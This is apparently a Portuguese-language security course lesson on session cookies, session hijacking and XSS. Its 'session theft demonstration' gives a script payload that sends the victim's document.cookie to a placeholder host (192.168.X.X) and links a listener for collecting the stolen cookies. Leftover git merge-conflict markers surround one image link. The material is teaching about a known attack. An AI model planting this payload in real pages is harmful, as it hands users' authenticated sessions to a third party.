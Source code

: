 ## Cookies

![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/pexels/sinmocx.jpg)

Toda conexão estabelecida entre o Cliente e o Servidor constitue uma **Sessão**, essa sessão é atribuida pelo servidor após execução do processo de conexão no formato "Three Way Handshake" comentado no começo do curso, possuindo uma numeração de identificação baseado em uma tabela chave valor armazenada no servidor, seu uso entre outras funções permite ao servidor identificar o usuário que esta executando a conexão. essa informação também é conhecida pelo Browser do usuária sendo recebida do servidor em uma resposta que chamamos de **Cookie**;

Podemos verificar a existência de Cookies de sessão inspecionando os elementos da Guia Network no acesso a qualquer página web:

<<<<<<< HEAD:content/7criptografiaProtocolos/7.3cookies.md
![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/images/7.3cookiesFiap.png)
=======
![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/images/7.2cookiesFiap.png)
>>>>>>> 1e59ba343e16b21e127c3d07496bd44355c7db91:content/7criptografiaProtocolos/7.2cookies.md

Verifique que neste caso temos o item Cookie com um número de identificação da sessão. Esse número é único e assim será diferente para qualquer outra sessão aberta, faça teste executando o mesmo procedimento a partir de outro Brownser por exemplo ou em uma janela Anônima.

### O conceito de sequestro de sessão:

Ataques baseados em sequestro de sessão utilizam mecanismos de exploits baseados na tentativa de controle dos cookies e tokens de acesso em sessões de usuários, quando essas sessões envolvem autenticação prévia, ou seja roubando a sessão estamos executando um by pass na autenticação e recebendo acesso a páginas e conteúdos que supostamente só deveriam ser acessíveis aos usuários autenticados.

Um token de sessão é normalmente composto por uma string de largura variável e pode ser usado de diferentes maneiras, como na URL, no cabeçalho da requisição http como um cookie ( Modelo que vimos a pouco ), ou em outras partes do cabeçalho ou corpo da requisição http.

Utilizando código JavaScript um Cookie de sessão pode ser obtindo da seguinte forma:

```sh
<script>
alert(document.cookie);
</script>
```

> Neste caso trata-se do Cookie de sua própria sessão o que ainda não configura um processo de sequestro de sessão propriamente dito;

***Como o XSS se relaciona ao Sequestro de Sessão?***

O ponto onde o Cookie de sessão e a exploração de XSS baseado em Javascript se encontram é exatamente no resgate e envio dessa informação a terceiros, uma vez que um usuário esteja em uma área autenticada, o cookie de sessão é uma informação preciosa que utilizado da maneira certa permitiria o acesso ao conteúdo autenticado "simulando" estar na sessão do usuário, Existem certas formas de obter essa informação o principio basico por trás da maioria delas é forçar a execução de código pelo Browser do usuário de forma que o próprio usuário entregue a informação sem perceber;

***Demonstração de roubo de sessão:*** 

No exemplo abaixo utilizaremos uma imagem como base para conseguir isso, essa imagem será seguida pela requisição de acesso ao cookie do usuário:

```sh
Hi Everone...
<script>
var imagem=new Image();
imagem.src="http://192.168.X.X?"+document.cookie;
</script>
```

Na demonstração acima temos o campo "http://192.168.X.X" com endereço do host que receberá o cookie enviado pelo browser e a propriedade ***?"+[document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)*** utilizada para recuperar o cookie associado a sessão no momento em que executamos um GET no conteúdo do blog;

> Para que alguma ação baseada no conceito acima seja bem sucedida será necessário que no endereço de destino o host seja preparado para receber a informação enviada pelo brownser dos usuários que acessaram a página com o código XSS implementado, isso pode ser feito de "N" formas, usando webservers ou aplicações simples como um [script python](https://github.com/fiapfiap/Sec/blob/master/scripts/listen.py);

### Material de Referência

Boa parte dessa aula baseia-se em uma publicação de Prakhar Prasad pela editora Packt:

* [Livro, Mastering Modern Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-modern-web-penetration-testing)


O curso da [Alura](https://www.alura.com.br/curso-online-seguranca-web-vulnerabilidades-do-seu-sistema) ta alguns conceitos muito legais sobre sequestro de sessão e XSS usando como base a plataforma OWASP:

* [Curso Segurança Web: Vulnerabilidades do seu sistema e OWASP
](https://cursos.alura.com.br/course/seguranca-web-vulnerabilidades-do-seu-sistema)


Detalhamento Técnico sobre a propriedade document.cookie fornecida pelo MDN:

* [Document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)

---

**Free Software, Hell Yeah!**
